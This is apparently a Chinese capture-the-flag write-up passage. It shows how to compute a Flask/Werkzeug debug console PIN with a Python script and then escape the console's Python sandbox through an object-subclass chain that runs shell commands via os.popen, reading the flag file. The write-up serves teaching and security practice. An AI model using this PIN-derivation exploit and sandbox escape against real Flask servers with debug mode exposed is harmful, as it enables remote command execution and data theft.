 拿到pin码便可执行命令。

具体可以参考[Flask debug pin安全问题](https://xz.aliyun.com/t/2553)

贴一下这题得到的`exp`

```python
import hashlib

def get_pin(md5_list):
	h = hashlib.md5()
	for bit in md5_list:
		if not bit:
			continue
		if isinstance(bit, unicode):
			bit = bit.encode('utf-8')
		h.update(bit)
	h.update(b'cookiesalt')
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num
	return rv

name = get_name()
md5_list = [
    'ctf',
    'flask.app',
    'Flask',
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc',
    '2485378285570',
    ''
    ]

print get_pin(md5_list)
```



这里可能比较坑的是`/usr/local/lib/python2.7/dist-packages/flask/app.pyc`跟`machine_id`是空两处。不过通过几次尝试也都可以尝试出来。难度并不算大。



然后就是命令执行，一个简单没有任何过滤的`Python`沙盒，方法很多。

这里简单给个事例

```python
[console ready]
>>> ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()' )
'APP\nflag\nrun.py\ntest.py\nwww.zip\n'
>>> ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("cat ./flag").read()' )
'NUAACTF{F14sssskkkrrr_D3Bug_n0t_S4f3}'
```
